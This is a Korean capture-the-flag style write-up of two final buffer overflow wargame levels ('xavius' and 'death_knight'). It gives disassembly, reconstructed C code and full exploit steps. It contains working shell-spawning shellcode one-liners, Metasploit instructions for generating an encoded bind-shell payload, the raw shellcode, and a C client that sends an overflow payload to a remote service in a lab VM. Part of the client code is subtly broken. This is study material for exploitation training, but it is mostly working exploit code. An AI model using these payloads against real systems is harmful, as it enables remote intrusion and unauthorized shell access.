0x8048810  <main+252>:   push   0xb90   
0x8048815  <main+257>:   push   0   
0x8048817  <main+259>:   lea    %eax,[%ebp-40]   
0x804881a  <main+262>:   lea    %edx,[%eax-3000]   
0x8048820  <main+268>:   push   %edx   
0x8048821  <main+269>:   call   0x8048468 <memset>   
0x8048826  <main+274>:   add    %esp,12     

0x8048829  <main+277>:   leave   
0x804882a  <main+278>:   ret
```

### 참고: assembly에서 test
- and연산
- 따라서 두개가 다 0인 경우에만 참, 나머지는 거짓

**c언어로 예측하여 변환한 코드**
```
char buffer[40];
char * addr;

fgets(buffer,256,stdin);
printf("%s\n",buffer);

if(ebp+7 == 0xbf){
  printf("stack retbayed you!\n");
  exit(0);
}

if(ebp+7 == 0x8){
  printf("binary image retbayed you, too!!\n")
  exit(0);
}

memcpy(addr, ebp+4(RET), 4);

while( memcmp(addr, "\x90\x90" ,2) != 0){
  if(*addr == 0xc9){ 
    if(*(addr+1) == 0xc3){
      printf("You cannot use library function!\n");
      exit(0);
    }
  }
addr++;
}
```

### 제약조건

```
memset(buffer, 0, 44);          // buffer 0으로 초기화
memset(ebp+8,0,bfffffcf-addr);  //ret다음부터 아래를 0으로 초기화
memset(addr-3000, 0, 2960);     // buffer윗부분 삭제(LD Preload)
                                // ret만 제외하고 모두 0으로 초기화
```

1. bf 영역 사용 불가
2. 08 영역(바이너리) 사용 불가
3. ebp+4(ret)의 시작주소 80으로 시작x
4. c9c3으로 시작x
5. 스택 영역 초기화

### 문제풀이

- 40 영역 찾아보기
- `(python -c'print  "a"*44+"\xbb\xbb\xbb\xbf"';cat)|./xavius`
--> stack retbayed you!

- `(python -c 'print "a"*44+"\xbb\xbb\xbb\xbb"';cat)|./xavius`
--> binary image retbayed you, too!!

- `(python -c 'print "a"*44+"\xe0\x8a\x05\x40"';cat)|./xavius`
- 시스템함수 <0x40058ae0> 호출한 경우 -->"You cannot use library function!\n"
- *c9c39090 --> leave ret nop nop
  + 함수의 마지막이 대부분 위와 같은 형태임
  + 따라서 함수를 쓰지 못하도록 한 것
  + 40형태라더라도 함수형태가 아니면 사용 가능

`strace ./xavius` --> 이용하고 있는 system call을 보여줌
이 경우 남아있는 40영역 중에서 함수 형태가 아닌 것은 사용 가능하므로 read할 때 잠시 0x40015000영역에 저장해 두었다가 사용 가능

```
old_mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0

x40015000 ioctl(0, TCGETS, {B9600 opost isig icanon echo ...}) = 0
read(0, abcdefg"abcdefg\n", 1024) = 8
```

```
(python -c'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x00\x50\x01\x40"';cat)|./xavius

perl로 하면 뒷자리를 01로 바꾸어 주면 됨

(perl -e 'print  "\x90"x19. "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80".  "\x01\x50\x01\x40"';cat)|./xavius
```

## (20) xavius / throw me away

### 문제 개요
**assembly 코드**
```
0x80488c4  <main>:       push   %ebp   
0x80488c5  <main+1>:     mov    %ebp,%esp     

0x80488c7  <main+3>:     sub    %esp,84     

0x80488ca  <main+6>:     push   0   
0x80488cc  <main+8>:     push   1   
0x80488ce  <main+10>:    push   2   
0x80488d0 <main+12>:     call   0x804861c <socket>   
0x80488d5  <main+17>:    add    %esp,12     

0x80488d8  <main+20>:    mov    %eax,%eax   
0x80488da  <main+22>:    mov    DWORD PTR [%ebp-44],%eax   
0x80488dd  <main+25>:    cmp    DWORD PTR  [%ebp-44],-1   
0x80488e1  <main+29>:    jne    0x8048900  <main+60>     

0x80488e3  <main+31>:    push   0x8048afb   
0x80488e8  <main+36>:    call   0x804853c  <perror>   
0x80488ed  <main+41>:    add    %esp,4     

0x80488f0  <main+44>:    push   1   
0x80488f2  <main+46>:    call   0x80485dc  <exit>   
0x80488f7  <main+51>:    add    %esp,4     

0x80488fa  <main+54>:    lea    %esi,[%esi]   
0x8048900  <main+60>:    mov    DWORD PTR  [%ebp-64],0x2   
0x8048906  <main+66>:    push   0x1a0a   
0x804890b  <main+71>:    call   0x80485fc  <htons>   
0x8048910  <main+76>:    add    %esp,4     

0x8048913  <main+79>:    mov    %eax,%eax   
0x8048915  <main+81>:    mov    DWORD PTR  [%ebp-62],%ax   
0x8048919 <main+85>:     mov    DWORD PTR [%ebp-60],0x0   
0x8048920  <main+92>:    push   8   
0x8048922  <main+94>:    lea    %eax,[%ebp-64]   
0x8048925  <main+97>:    lea    %edx,[%eax+8]   
0x8048928 <main+100>:    push   %edx   
0x8048929  <main+101>:   call   0x80485cc <bzero>   
0x804892e  <main+106>:   add    %esp,8     

0x8048931  <main+109>:   push   16   
0x8048933  <main+111>:   lea    %edx,[%ebp-64]   
0x8048936  <main+114>:   mov    %eax,%edx   
0x8048938  <main+116>:   push   %eax   
0x8048939 <main+117>:    mov    %eax,DWORD PTR [%ebp-44]   
0x804893c  <main+120>:   push   %eax   
0x804893d <main+121>:    call   0x80485bc <bind>   
0x8048942  <main+126>:   add    %esp,12     

0x8048945 <main+129>:    mov    %eax,%eax   
0x8048947  <main+131>:   cmp    %eax,-1   
0x804894a <main+134>:    jne    0x8048963 <main+159>   
0x804894c  <main+136>:   push   0x8048b02   
0x8048951 <main+141>:    call   0x804853c <perror>   
0x8048956  <main+146>:   add    %esp,4     

0x8048959 <main+149>:    push   1   
0x804895b  <main+151>:   call   0x80485dc <exit>   
0x8048960 <main+156>:    add    %esp,4     

0x8048963  <main+159>:   push   10   
0x8048965 <main+161>:    mov    %eax,DWORD PTR [%ebp-44]   
0x8048968  <main+164>:   push   %eax   
0x8048969 <main+165>:    call   0x804856c <listen>   
0x804896e  <main+170>:   add    %esp,8     

0x8048971 <main+173>:    mov    %eax,%eax   
0x8048973  <main+175>:   cmp    %eax,-1   
0x8048976 <main+178>:    jne    0x8048990 <main+204>   
0x8048978  <main+180>:   push   0x8048b07   
0x804897d <main+185>:    call   0x804853c <perror>   
0x8048982  <main+190>:   add    %esp,4     

0x8048985 <main+193>:    push   1   
0x8048987  <main+195>:   call   0x80485dc <exit>   
0x804898c <main+200>:    add    %esp,4     

0x804898f  <main+203>:   nop   
0x8048990  <main+204>:   nop   
0x8048991  <main+205>:   jmp    0x8048998  <main+212>   
0x8048993 <main+207>:    jmp    0x8048a60 <main+412>   
0x8048998  <main+212>:   mov    DWORD PTR  [%ebp-84],0x10   
0x804899f <main+219>:    lea    %eax,[%ebp-84]   
0x80489a2  <main+222>:   push   %eax   
0x80489a3 <main+223>:    lea    %edx,[%ebp-80]   
0x80489a6  <main+226>:   mov    %eax,%edx   
0x80489a8  <main+228>:   push   %eax   
0x80489a9  <main+229>:   mov    %eax,DWORD PTR  [%ebp-44]   
0x80489ac  <main+232>:   push   %eax   
0x80489ad  <main+233>:   call   0x804855c <accept>   
0x80489b2  <main+238>:   add    %esp,12     

0x80489b5  <main+241>:   mov    %eax,%eax   
0x80489b7  <main+243>:   mov    DWORD PTR [%ebp-48],%eax   
0x80489ba  <main+246>:   cmp    DWORD PTR  [%ebp-48],-1   
0x80489be  <main+250>:   jne    0x80489d0  <main+268>   
0x80489c0  <main+252>:   push   0x8048b0e   
0x80489c5  <main+257>:   call   0x804853c <perror>   
0x80489ca  <main+262>:   add    %esp,4     

0x80489cd  <main+265>:   jmp    0x8048991 <main+205>   
0x80489cf  <main+267>:   nop   
0x80489d0  <main+268>:   call   0x804854c <fork>   
0x80489d5 <main+273>:    mov    %eax,%eax   
0x80489d7  <main+275>:   test   %eax,%eax   
0x80489d9 <main+277>:    jne    0x8048a30 <main+364>   
0x80489db  <main+279>:   push   0   
0x80489dd <main+281>:    push   52   
0x80489df  <main+283>:   push   0x8048b20   
0x80489e4 <main+288>:    mov    %eax,DWORD PTR [%ebp-48]   
0x80489e7  <main+291>:   push   %eax   
0x80489e8 <main+292>:    call   0x80485ec <send>   
0x80489ed  <main+297>:   add    %esp,16     

0x80489f0 <main+300>:    push   0   
0x80489f2  <main+302>:   push   6   
0x80489f4  <main+304>:   push   0x8048b55   
0x80489f9  <main+309>:   mov    %eax,DWORD PTR  [%ebp-48]   
0x80489fc <main+312>:    push   %eax   
0x80489fd  <main+313>:   call   0x80485ec <send>   
0x8048a02 <main+318>:    add    %esp,16     

0x8048a05  <main+321>:   push   0   
0x8048a07  <main+323>:   push   0x100   
0x8048a0c  <main+328>:   lea    %eax,[%ebp-40]   
0x8048a0f  <main+331>:   push   %eax   
0x8048a10 <main+332>:    mov    %eax,DWORD PTR [%ebp-48]   
0x8048a13  <main+335>:   push   %eax   
0x8048a14 <main+336>:    call   0x804860c <recv>   
0x8048a19  <main+341>:   add    %esp,16     

0x8048a1c <main+344>:    mov    %eax,DWORD PTR [%ebp-48]   
0x8048a1f  <main+347>:   push   %eax   
0x8048a20 <main+348>:    call   0x804852c <close>   
0x8048a25  <main+353>:   add    %esp,4     

0x8048a28 <main+356>:    jmp    0x8048a60 <main+412>   
0x8048a2a  <main+358>:   lea    %esi,[%esi]   
0x8048a30  <main+364>:   mov    %eax,DWORD PTR  [%ebp-48]   
0x8048a33  <main+367>:   push   %eax   
0x8048a34 <main+368>:    call   0x804852c <close>   
0x8048a39  <main+373>:   add    %esp,4     

0x8048a3c <main+376>:    lea    %esi,[%esi*1]   
0x8048a40  <main+380>:   push   1   
0x8048a42 <main+382>:    push   0   
0x8048a44  <main+384>:   push   -1   
0x8048a46  <main+386>:   call   0x804858c  <waitpid>   
0x8048a4b  <main+391>:   add    %esp,12     

0x8048a4e  <main+394>:   mov    %eax,%eax   
0x8048a50  <main+396>:   test   %eax,%eax   
0x8048a52 <main+398>:    jg     0x8048a56 <main+402>   
0x8048a54  <main+400>:   jmp    0x8048a58  <main+404>   
0x8048a56  <main+402>:   jmp    0x8048a40  <main+380>   
0x8048a58  <main+404>:   jmp    0x8048991  <main+205>   
0x8048a5d  <main+409>:   lea    %esi,[%esi]   
0x8048a60  <main+412>:   mov    %eax,DWORD PTR  [%ebp-44]   
0x8048a63  <main+415>:   push   %eax   
0x8048a64  <main+416>:   call   0x804852c <close>   
0x8048a69 <main+421>:    add    %esp,4     

0x8048a6c  <main+424>:   leave   
0x8048a6d  <main+425>:   ret
```

**c언어로 예측하여 변환한 코드**
```
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <string.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <sys/socket.h>
#include <sys/wait.h>
#include <dumpcode.h>

main() {
  char buffer[40];
  int server_fd, client_fd;
  struct sockaddr_in server_addr;
  struct sockaddr_in client_addr;         
  int sin_size;
  
  if((server_fd = socket(2, 1, 0)) == -1){  // (socket(AF_INET, SOCK_STREAM, 0)
    perror("socket");
    exit(1);
  }
  
  server_addr.sin_family = AF_INET;
  server_addr.sin_port = htons(6666);
  server_addr.sin_addr.s_addr = INADDR_ANY;
  bzero(&(server_addr.sin_zero), 8);    
  
  if(bind(server_fd, (struct sockaddr *)&server_addr, sizeof(struct sockaddr)) == -1){
    perror("bind");
    exit(1);
  }

  if(listen(server_fd, 10) == -1){
    perror("listen");
    exit(1);
  }

  while(1) {
    sin_size = sizeof(struct sockaddr_in);
    if((client_fd = accept(server_fd, (struct sockaddr *)&client_addr, &sin_size)) == -1){
      perror("accept");
      continue;
    }

    if (!fork()){
      send(client_fd, "Death Knight : Not even death can save you from me!\n", 52, 0);
      send(client_fd, "You : ", 6, 0);
      recv(client_fd, buffer, 256, 0);
      close(client_fd);
      break;
    }

    close(client_fd);
    while(waitpid(-1,NULL,WNOHANG) > 0);
  }
    close(server_fd);
}
```

### 문제풀이
- netstat -ant 해서 보면 6666포트 열려있음
- accept함수: 사용자가 연결요청할 때까지 블로킹되어있음
- `CMD> telnet ip addr 6666`
- 지금까지 쓴 셸코드는 local에서 적용되는 것이므로 원격에서 적용되는 셸코드를 사용하여야 함


**kail linux 설치**
- http://www.kali.org/
- 셸코드 제작에 Kali Linux를 활용

payload==> shell code
`#> msfconsole`

사용할수 있는 페이로드를 보여줌
`#>show payloads` 

bind_tcp 사용
`use linux/x86/shell/bind_tcp`
`show options`

포트번호 변경
`set LPORT 1828`

셸코드 생성
`#> generate`

ff와 00없는셸코드 제작
`#> generate -b "\xff\x00"`

#### 사용할 셸코드
```
# linux/x86/shell_bind_tcp - 105 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=4444, RHOST=, PrependFork=false,
# PrependSetresuid=false, PrependSetreuid=false,
# PrependSetuid=false, PrependSetresgid=false,
# PrependSetregid=false, PrependSetgid=false,
# PrependChrootBreak=false, AppendExit=false,
# InitialAutoRunScript=, AutoRunScript=
buf =
"\xda\xdb\xbf\x17\x3c\xdf\x0a\xd9\x74\x24\xf4\x5e\x33\xc9" +
"\xb1\x14\x83\xc6\x04\x31\x7e\x15\x03\x7e\x15\xf5\xc9\xee" +
"\xd1\x0e\xd2\x42\xa5\xa3\x7f\x67\xa0\xa2\x30\x01\x7f\xa4" +
"\x6a\x90\x2d\xcc\x8e\x2c\xc3\x50\xe5\x3c\xb2\x38\x70\xdd" +
"\x5e\xde\xda\xd3\x1f\x97\x9a\xef\xac\xa3\xac\x96\x1f\x2b" +
"\x8f\xe6\xc6\xe6\x90\x94\x5e\x92\xaf\xc2\xad\xe2\x99\x8b" +
"\xd5\x8a\x36\x43\x55\x22\x21\xb4\xfb\xdb\xdf\x43\x18\x4b" +
"\x73\xdd\x3e\xdb\x78\x10\x40"
```

#### c언어 소켓 프로그래밍
```
#include <stdlib.h>
#include <errno.h>
#include <string.h>
#include <netdb.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <sys/socket.h>

char shell[]=
"\xda\xdb\xbf\x17\x3c\xdf\x0a\xd9\x74\x24\xf4\x5e\x33\xc9"
"\xb1\x14\x83\xc6\x04\x31\x7e\x15\x03\x7e\x15\xf5\xc9\xee"
"\xd1\x0e\xd2\x42\xa5\xa3\x7f\x67\xa0\xa2\x30\x01\x7f\xa4"
"\x6a\x90\x2d\xcc\x8e\x2c\xc3\x50\xe5\x3c\xb2\x38\x70\xdd"
"\x5e\xde\xda\xd3\x1f\x97\x9a\xef\xac\xa3\xac\x96\x1f\x2b"
"\x8f\xe6\xc6\xe6\x90\x94\x5e\x92\xaf\xc2\xad\xe2\x99\x8b"
"\xd5\x8a\x36\x43\x55\x22\x21\xb4\xfb\xdb\xdf\x43\x18\x4b"
"\x73\xdd\x3e\xdb\x78\x10\x40";

int main(){
  int sock=0;
  struct sockaddr_in addr;
  int ret=0xbfffffff;
    unsigned int num1=0;
  unsigned int num2=0;
  unsigned int num3=0;
  unsigned int num4=0;
  unsigned int sum=0;
  char data[256]={0,};
  
  addr.sin_family=PF_INET;
  addr.sin_port=htons(6666);
  addr.sin_addr.s_addr=inet_addr("192.168.0.87");
  bzero( &(addr.sin_zero),8);
  
  memset(data,0x90,256);
  memcpy(data+100,shell,sizeof(shell));
  
  while(1){
    sock=socket(PF_INET, SOCK_STREAM, 0);
    connect(sock, (struct sockaddr *)&addr, sizeof(addr));
  }
  memcpy(data+44,&ret,4);
  send(sock,&data,sizeof(data),0);
  close(sock);
  return 0;
}
```

### 문제풀이
- xavius ip: 192.168.0.87
- ebp-44 ~ ebp-40+256 만큼 사용 가능
- RET주소는 gdb로 확인할 방법이 없으므로 브루트포싱해야함
- send할 client network programming 필요
- bof 네트워크 설정
  + NAT ->Bridge로 변경
  + Configure Adapters - VirtualBox Host-Only EthernetAdapter 체크 해제
- inet_addr: BOF ip(VMware)
- 192.168.0.87에 256바이트 전송

#### 셸코드 구성내용
```
nop x 44 [ SHELL CODE 105bytes]
프로그램 작성: Cent OS
연결되어있는지 여부는 4444번 포트로 tcp연결을 해 보면 알 수 있음

CMD> telnet 192.168 0.87 4444
id;
my-pass;     //세미콜론을 붙여야제대로 전달됨

결과: id: death_knight // got the life
```



FINISH!